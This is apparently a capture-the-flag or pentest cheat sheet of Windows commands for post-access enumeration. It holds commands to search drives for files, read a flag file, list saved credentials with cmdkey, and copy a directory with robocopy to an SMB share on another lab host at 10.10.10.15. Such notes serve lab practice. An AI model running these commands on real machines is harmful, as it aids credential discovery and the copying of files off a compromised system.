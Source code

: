 ```
dir secret.doc /s /p
```

## Enmurate Entire C: with dir to find stuff:

```
dir *.bat /s /a
dir *.txt /s /a
dir *.log /s /a
```

## Use findstr to view the contents of a file, just in case "type" doesn't work

```
findstr ".*" "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```

## Use findstr to find multiple strings:

```
 findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

## Use robocopy just in case "dir" doesn't work

```
robocopy C:\Windows C:\Users\Administrator\ /L
```

## Use robocopy to copy over directories to smb shares:

```
robocopy .\ColdFusion8 \\10.10.10.15\temp\Cold\ /S
```

## List Saved Credentials

```
cmdkey /list
```

## Veiw Started Services:

```
net start
```

## Connect to SMB share

```
net use z: \\10.10.10.14\temp
```
